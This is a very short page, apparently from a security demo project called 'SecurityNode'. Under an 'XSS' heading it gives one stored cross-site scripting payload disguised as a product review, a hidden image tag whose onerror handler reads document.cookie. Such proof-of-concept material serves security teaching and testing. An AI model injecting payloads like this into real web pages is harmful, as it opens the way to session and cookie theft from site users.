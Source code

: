 # SecurityNode

### XSS
```
Awesome product!
<img src="xyz" style="display:none" onerror="alert(`Your Cookies: ${document.cookie}`);">
```
